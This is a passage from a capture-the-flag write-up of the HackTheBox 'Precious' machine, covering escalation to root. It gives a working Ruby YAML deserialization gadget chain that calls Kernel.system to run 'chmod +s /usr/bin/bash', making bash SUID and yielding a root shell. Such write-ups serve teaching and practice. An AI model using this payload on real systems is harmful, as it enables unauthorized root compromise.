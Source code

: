 ![Code execution as root](Assets/HTB-Linux-Easy-Precious/CEwithRootPriv.png)

We just create a file caller **test.txt** for confirm that the code is working. And it works! We can execute command as root. Now, we need a way to get root shell. They are so many ways, but I like this one: I will change permissions on the /usr/bin/bash program to execute it as the owner of the program. The owner of the program is root. So, if we execute the program, we will get a root shell. The code we will use is:

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /usr/bin/bash
         method_id: :resolve 
```
